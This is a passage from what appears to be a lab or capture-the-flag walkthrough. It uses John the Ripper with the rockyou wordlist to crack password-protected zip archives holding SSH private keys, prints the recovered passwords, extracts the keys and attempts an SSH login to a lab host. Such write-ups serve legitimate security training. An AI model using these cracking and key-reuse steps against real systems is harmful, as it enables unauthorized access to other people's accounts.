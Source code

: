 Now we can crack the passwords using John the Ripper or `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt *.hash
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)     
catwoman         (cathrine.zip/id_rsa)     
2g 0:00:00:05 DONE (2024-08-11 02:11) 0.3344g/s 2398Kp/s 2399Kc/s 2399KC/s !LUVDKR!..*7¡Vamos!
Warning: passwords printed above might not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Since we know the passwords for the `tom.zip` and `cathrine.zip` files, we can now unzip them.

```
$ unzip -d ./tom tom.zip
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: ./tom/id_rsa     
```

```
$ unzip -d ./cathrine cathrine.zip
Archive:  cathrine.zip
[cathrine.zip] id_rsa password: 
  inflating: ./cathrine/id_rsa  
```

Next, we have to set the file permission to `600`.

```
$ chmod 600 tom/id_rsa 
```

```
$ chmod 600 cathrine/id_rsa
```

&nbsp;

### Exploitation

### SSH login

Let's try to login as `cathrine` via SSH.

```
$ ssh -i cathrine/id_rsa cathrine@192.168.165.107
The authenticity of host '192.168.165.107 (192.168.165.107)' can't be established.
ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.165.107' (ED25519) to the list of known hosts.
Connection closed by 192.168.165.107 port 22
```
